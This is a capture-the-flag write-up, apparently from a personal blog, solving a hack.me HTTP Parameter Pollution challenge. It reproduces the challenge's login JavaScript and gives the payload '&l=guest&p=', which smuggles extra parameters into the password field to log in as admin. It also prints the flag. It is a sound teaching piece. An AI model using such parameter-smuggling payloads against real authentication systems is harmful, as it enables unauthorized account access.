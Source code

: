 ```yaml
---
title: HTTP Parameter Pollution
date: "2017-05-12T22:40:32.169Z"
layout: post
path: "/hack.me/hpp/"
category: "Hack.me"
tile: "lg-tile"
color: "hackme"
readTime: "20"
hide: false
description: "This challenge contains a fake shell with a login prompt.  The login is performed via a php request validation. A guest account is known, but the admin account is not.  Using HPP, I'm able to login as the admin account."
---
```


<div class='daily-hack-box'>
	<table class='table'>
		<thead>
		</thead>
		<tbody>
			<tr>
				<th scope='row'>Challenge</th>
				<td>Break into online shell's admin account.</td>
			</tr>
			<tr>
				<th scope='row'>Method</th>
				<td>HTTP Parameter Pollution (HPP)</td>
			</tr>
			<tr>
				<th scope='row'>Link</th>
				<td><a class='table-link' target='_blank' href='https://hack.me/103164/online-shell-hack.html'>https://hack.me/103164/online-shell-hack.html</a></td>
			</tr>
			<tr>
				<th scope='row'>Flag</th>
				<td>i0EJKrsgbhQOKscwyNXL</td>
			</tr>
		</tbody>
	</table>
</div>

### Daily Hack #1 Writeup
Opening the sandbox and I was greeted with this prompt:


<figure>
	<img style="height: 110px;" src="./login-prompt.png" alt="Login-Prompt">
	<figcaption>Login Prompt</figcaption>
</figure>

The first thing I did was open Chrome's dev tools and immediately notice this piece of JS in a `<script/>` tag.

```js
var login = "", sessionKey = "";
function getHTTP(url) {
	var xhr = new XMLHttpRequest();
	xhr.open("GET", url, false);
	xhr.send(null);
	return xhr.responseText;
}
function enterLogin(input) {
	if (getHTTP("request.php?m=login&l="+input) == "ok") {
		login = input; // Saves the login
		currentTerminalFunction = enterPassword; // Set the next function
		terminalInPasswordMode = true; // Indicate that the user will type a password
		terminalPrint("Enter your password: ");
	} else {
		terminalPrint("<span style=\"color:#FE0000;\">Error: This login does not exists!</span><br /><br />Please enter your login: ");
	}
}
function enterPassword(input) {
	terminalInPasswordMode = false;
	var resp = getHTTP("request.php?m=password&l="+login+"&p="+input);
	if (resp !== "error") {
		sessionKey = resp;
		terminalPrint("Logged in.<br />Type \"logout\" or \"exit\" to disconnect.<br /><br />prompt>");
		currentTerminalFunction = prompt;
	} else {
		terminalPrint("<span style=\"color:#FE0000;\">Error: Wrong password!</span><br /><br />Please enter your login: ");
		currentTerminalFunction = enterLogin;
	}
}
function prompt(input) {
	var resp = getHTTP("request.php?m=prompt&l="+login+"&s="+sessionKey+"&c="+encodeURIComponent(input));
	if (resp.startsWith("#error_log_out#")) { // On error, or logout
		terminalPrint(resp.substr(15));
		terminalPrint("Please enter your login: ");
		currentTerminalFunction = enterLogin;
	} else {
		terminalPrint(resp);
	}
}
var currentTerminalFunction = enterLogin;
var terminalContent = "CTF#1<br />Try to log in as \"admin\".<br />Guest user is \"guest\" with empty password.<br /><br /><br />Please enter your login: ";
```

The key line of this is line 19 above, where the program makes a request to login.  We can exploit this line with HTTP Parameter Pollution.  Note the that script takes our input and puts it directly into a request query.  This is a big red flag because a program should never take user input and use it directly without some form of sanitization.

```js
var resp = getHTTP("request.php?m=password&l="+login+"&p="+input);
```

I can login with a username of `admin` and for the password I simply enter `&l=guest&p=`.  As you can see this makes the request into:

```js
var resp = getHTTP("request.php?m=password&l="+"admin"+"&p="+"&l=guest&p=")
```

Which allows `guest` to login as `admin`.  Next, I simply `cat flag.txt` and I have the flag!

<figure>
	<img style="height: 250px;" src="./hpp-solution.png" alt="Solution">
	<figcaption>HPP Solution</figcaption>
</figure>

